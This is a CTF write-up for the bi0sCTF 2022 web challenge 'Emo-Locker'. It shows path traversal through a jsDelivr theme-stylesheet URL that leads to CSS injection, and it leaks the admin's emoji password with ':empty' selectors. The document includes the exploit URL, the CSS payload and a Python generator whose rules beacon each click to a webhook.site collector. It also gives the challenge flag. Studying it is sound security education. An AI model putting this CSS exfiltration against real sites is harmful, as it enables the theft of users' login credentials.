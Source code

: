 ```yaml
---
title: Emo-Locker - bi0sCTF 2022
date: 2023-01-23 18:21:08
author: Yadhu Krishna
author_url: https://twitter.com/YadhuKrishna_
categories:
  - Web 
tags:
  - XSLeaks
  - CSS injection
---
```



**tl;dr**
    - CSS injection using url forging
    - leaking password using `:empty` selectors

<!--more-->

**Challenge points**: 984
**No. of solves**: 7

## Challenge Description

All new emoji-based authentication service. See if you can get the admin's emojis. 🥷

The source code of this challenge can be downloaded from [here](https://github.com/yadhukrishnam/bi0sCTF22).

## Analysis

Upon opening the challenge link, we are presented with a lockscreen that uses emojis instead of numbers. The page has two features: register and login. Additionally, there is an admin bot, which suggests that the challenge may involve client-side concepts. 

![](https://i.imgur.com/tnkk4nj.png)

The frontend of this application is developed in React.js. After analyzing the client-side JavaScript source code, we discover a hidden feature:

```js
{
    key: "switchTheme",
    value: function() {
        this.setState((function(e) {
            var n = "https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/".concat(window.location.hash.replace("#", ""), "-mode.css");
            return e.link_obj.href = n, {}
        }))
    }
}
```

```js
{
    key: "componentWillUnmount",
    value: function() {
        window.removeEventListener("hashchange", this.switchTheme, !1)
    }
}
```

On looking into [https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/](https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/) can find that this can be used to switch themes - `dark` or `light`, by toogling the hash. Thus, we now have a functionalty that can load limited stylesheets into the page. 

## Exploit

At this point, one may have two questions:
1. Is it possible to load arbitrary stylesheets into the page?
2. If so, what can be done with this ability?

### Injecting Arbitary Stylesheets

Upon visiting the homepage of [jsdelivr](https://www.jsdelivr.com/), we can discover that it is a public CDN that can be used to embed files from various sources such as GitHub, npm, and WordPress. This means that it is possible to embed files from any GitHub repository using the following format:

```
https://cdn.jsdelivr.net/gh/[user-name]/[repository-name]/[file-path]
```

Since `window.location.hash` is directly placed into the `href` attribute we can simply use `../` to embed files from any repository in our control. 

```
http://web.chall.bi0s.in:10101/#../../../../gh/yadhukrishna/nothing-here@main/hola
```

Thus, it is possible to embed any stylesheet into the document by changing `window.location.hash` and hence, causing CSS Injection.

### Exploiting CSS Injection

On observing the UI carefully, one can find that each emoji is represented with:

```html
<span aria-label="105" role="img">💀</span>
```

On examining closer, we identify:
1. The `aria-label` value is sent in the request when the login button is clicked. Thus, `aria-label` value can be used to uniquely identify an emoji.
2. When an emoji is clicked, it is removed from the content of the `<span>` element, which makes it empty. 

These can be used to detect clicks using the `:empty` pseudo-class selector.

For example,

On clicking the 12th emoji, a request can be sent to the specified URL, if we inject the below CSS.

```css
span[role="img"][aria-label="12"]:empty {
    background: url('https://webhook.site/7ecc884d-b05b-4433-97f7-574d1d78dc63/?item=12');
}
```

This can be used to detect admin bot's clicks and capture the login information.

```py
exploit_css = ""

for i in range(1, 164):
    exploit_css += '''
    span[role="img"][aria-label="''' + str(i) + '''"]:empty {
        background: url('https://webhook.site/7ecc884d-b05b-4433-97f7-574d1d78dc63/?item=''' + str(i) + '''');
    }
    '''
    
print (exploit_css)
```

![](https://i.imgur.com/qjVwRgf.png)


## Flag

```
bi0sctf{a34522e2009192570c840f931e4c3c0a}
```

